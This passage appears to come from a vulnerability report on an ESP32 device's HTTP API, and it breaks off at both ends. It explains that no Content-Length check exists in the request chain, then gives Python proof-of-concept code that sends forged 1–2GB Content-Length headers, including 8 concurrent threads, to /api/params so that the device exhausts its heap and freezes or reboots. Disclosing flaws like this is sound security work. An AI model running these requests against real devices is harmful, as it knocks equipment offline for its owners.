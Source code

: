4. **Step 4: Device becomes unresponsive**
   - Heap fragmented or exhausted
   - OOM condition triggers
   - Device may reboot or become frozen

### Missing Validation

**There is NO Content-Length validation anywhere in the chain:**

- No check in `K1PostBodyHandler::operator()()` (line 175-192)
- No check in `RequestContext` constructor (line 29-47)
- No middleware that validates incoming Content-Length headers

### Proof-of-Concept Attack

**Conceptual Attack Code (Python):**

```python
import requests
import socket

def memory_exhaustion_attack(target_ip):
    """
    Attack 1: Single massive Content-Length
    Requests 2GB from ESP32 with only 8MB heap
    """
    headers = {
        'Content-Length': '2147483647',  # 2GB
        'Content-Type': 'application/json'
    }
    body = '{"brightness": 1.0}'  # Small actual body

    try:
        response = requests.post(
            f'http://{target_ip}/api/params',
            headers=headers,
            data=body,
            timeout=5
        )
    except requests.exceptions.ConnectionError:
        print("[+] Device became unresponsive (connection refused)")
        return True
    except requests.exceptions.Timeout:
        print("[+] Device stopped responding (timeout)")
        return True

    return False

def concurrent_memory_exhaustion(target_ip):
    """
    Attack 2: Multiple simultaneous POST requests with massive Content-Length
    Each thread attempts to reserve gigabytes simultaneously
    """
    import threading

    def post_worker():
        headers = {'Content-Length': '1073741824', 'Content-Type': 'application/json'}
        body = '{"brightness": 1.0}'
        try:
            requests.post(f'http://{target_ip}/api/params', headers=headers, data=body, timeout=2)
        except:
            pass

    threads = [threading.Thread(target=post_worker) for _ in range(8)]
    for t in threads:
```